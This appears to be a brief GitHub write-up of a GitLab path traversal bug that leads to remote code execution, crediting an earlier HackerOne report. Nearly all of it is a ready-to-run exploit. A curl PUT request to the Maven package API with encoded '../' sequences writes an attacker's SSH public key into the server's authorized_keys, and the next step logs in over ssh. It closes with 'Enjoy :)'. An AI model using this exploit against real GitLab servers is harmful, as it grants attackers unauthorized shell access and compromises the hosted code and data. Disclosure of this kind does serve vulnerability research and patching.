 # Path traversal to RCE worth $12000 on GitLab 😳

### 1. Create project and private token
### 2. Send the following request
```
curl -H "Private-Token: $token" http://10.26.0.5/api/v4/projects/2/packages/maven/a%2fb%2fc%2fd%2fe%2ff%2fg%2fh%2fi%2f1/%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f.ssh%2fauthorized_keys -XPUT --path-as-is --data-binary @/home/asakawa/.ssh/id_rsa.pub
```
### 3. $ ssh git@10.26.0.5
### 4. Enjoy :)
![20220831-1.png](../../images/20220831-1.png)

## Credit
Based on [saltyyolk](https://hackerone.com/reports/733072)'s report.
</br>&nbsp;

## Support
You can Follow [me](https://twitter.com/MeAsHacker_HNA) on twitter or
<br><br><a href="https://www.buymeacoffee.com/NafisiAslH" target="_blank"><img src="https://cdn.buymeacoffee.com/buttons/v2/default-yellow.png" alt="Buy Me A Coffee" style="height: 60px !important;width: 217px !important;" ></a>
